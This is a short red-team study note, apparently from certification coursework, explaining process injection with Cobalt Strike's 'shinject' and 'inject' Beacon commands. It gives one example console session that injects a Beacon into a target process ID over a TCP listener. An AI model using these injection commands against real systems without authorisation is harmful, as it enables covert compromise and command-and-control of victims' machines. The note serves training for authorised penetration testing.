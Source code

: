
Process injection allows us to inject arbitrary shellcode into a process of our choosing.  You can only inject into processes that you can obtain a handle to with enough privileges to write into its memory.  In a non-elevated context, which usually limits you to your own processes.  In an elevated context, this includes processes owned by other users.

## 🖊️ via Cobalt Strike

Beacon has two main injection commands - `shinject` and `inject`.


#### 📔 shinject

`shinject` allows you to inject any arbitrary shellcode from a binary file on your attacking machine. 

####  📗 inject

`inject` will inject a full Beacon payload for the specified listener.
Example, injecting a process and using a TCP listener to receive the call:

```
beacon> inject 4464 x64 tcp-local
[*] Tasked beacon to inject windows/beacon_bind_tcp (127.0.0.1:4444) into 4464 (x64)
[+] established link to child beacon: 10.10.123.102
```

- 4464 is the target PID.
- x64 is the architecture of the process.
- tcp-local is the listener name.

The command will also automatically attempt to connect to the child if a P2P listener is used.  The resulting Beacon will run with the full privilege of the user who owns the process.

![[injection.png]]


### ⚠ Opsec




### Properties
---
📆 created   {{14-02-2024}} 10:16
🏷️ tags: #redteam #crto 

---

